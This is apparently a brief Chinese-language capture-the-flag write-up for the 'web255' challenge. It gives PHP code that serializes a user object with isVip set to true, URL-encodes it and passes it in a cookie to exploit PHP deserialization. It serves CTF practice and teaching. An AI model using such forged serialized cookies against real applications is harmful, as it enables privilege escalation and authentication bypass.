

# web255
修改为
```
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}
$a=new ctfShowUser();
$b=serialize($a);
echo urlencode($b);
```
在cookie处传入序列化数据
这里的cookie需要url编码
